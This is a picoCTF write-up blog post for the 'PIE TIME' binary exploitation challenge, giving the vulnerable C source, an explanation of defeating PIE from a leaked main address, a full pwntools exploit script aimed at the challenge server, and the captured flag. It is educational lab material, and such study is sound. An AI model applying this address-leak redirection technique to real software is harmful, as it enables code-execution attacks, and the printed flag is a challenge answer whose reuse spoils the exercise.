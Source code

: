 ```yaml
---

layout: post
title: "Binary Exploitation"
date: 2025-09-22 13:00:00 +0000
categories: [ctf-writeups, picoCTF - picoGym Challenges]
tags: 
summary: "my writeups for picoCTF - picoGym Challenges."
author: Mensi Mohamed Amine
toc: true
math: false
comments: true
---
```


# PIE TIME
challenge files @ [PIE TIME](https://github.com/Mensi-Mohamed-Amine/ctf-writeups/tree/main/picoCTF%20-%20picoGym%20Challenges/PIE%20TIME)


## description
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/1.png)
## solution
### binary information
In this task we are given a 64 bit, dynamically linked, not stripped binary.
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/2.png)

The binary has `pie` enbaled which will randomize the binary addresses every time it runs.
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/3.png)


We are also given the source code of the challenge which is so much appreciated from the authors.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
after making a static analysis on the source code we can conclude that the main idea of the program that's it take an address and jump to that address using a function pointer.

![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/4.png)

also we have a `win` function that reads the flag and print it to stdout.
```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```
So to solve this challenge all we have to do is bypassing pie and calculating the address of `win` function to get the flag, to do that we have a leak of `main` address so we will calculate the static offset between `win` and `main` to guess the address of `win` function AT RUNTIME and feed it to the remote to get the flag. 
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/5.png)

## exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template vuln --host rescued-float.picoctf.net --port 55160
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'rescued-float.picoctf.net'
port = int(args.PORT or 55160)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Address of main: ')
main_AT_RUNTIME = int(io.recvline().strip(), 16)
log.success(f"main_AT_RUNTIME : {hex(main_AT_RUNTIME)}")
win_AT_RUNTIME = main_AT_RUNTIME - (exe.sym['main'] - exe.sym['win'])
log.success(f"win_AT_RUNTIME : {hex(win_AT_RUNTIME)}")
io.sendline(str(hex(win_AT_RUNTIME)).encode())
io.interactive()
```

## exploit output
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/pie-time/6.png)

## flag
```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```

# heap 0
## description
![Alt Text](/assets/posts/pico-ctf/binary-exploitation/heap-0/1.png)